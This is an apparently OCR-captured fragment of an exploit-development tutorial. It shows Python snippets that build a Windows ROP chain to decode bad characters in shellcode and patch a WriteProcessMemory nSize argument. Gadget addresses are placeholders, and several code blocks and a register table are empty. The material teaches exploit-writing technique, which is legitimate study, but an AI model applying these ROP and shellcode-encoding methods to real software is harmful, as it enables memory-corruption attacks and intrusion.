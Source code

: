     pos = mapBadChars(shellc)
    rop += decodeShellcode(pos, shellc)
    
    #Restore WPM prototype buffer for nSize patching
    
    ## NSIZE
    #adjust eax to align with nsize e.g. increase eax 0x04
    rop += pack("<L", (0xFFFFFFFF)) # inc eax ; ret  ; 
    rop += pack("<L", (0xFFFFFFFF)) # inc eax ; ret  ;
    [....]
    
    #####################
    ## NOP & Shellcode ##
    #####################
    # NOP Padding before shellcode, adjust as needed
    encodedShellcode = encode(shellcode)
    [....]
    ```
    
    Before we identify potential ROP gadgets for the decoding process, we recap our register values where our ROP Encoder are set to start.
    
    ```python
    
    ```
    
    | Register | Value | Description |
    | --- | --- | --- |
    | EAX |  |  |
    | EBX |  |  |
    | ECX |  |  |
    | EDX |  |  |
    | ESI |  |  |
    | EDI |  |  |
    | EBP |  |  |
    
    We effectively need to do the following now:
    
    - ECX points to our shellcode location
    - pop the offset of our current or next bad char into a register
    - subtract the negative offset
    - pop the value for our OR instruction into register
    - add lower sub register to our bad char
    
    ```python
    
    ```
    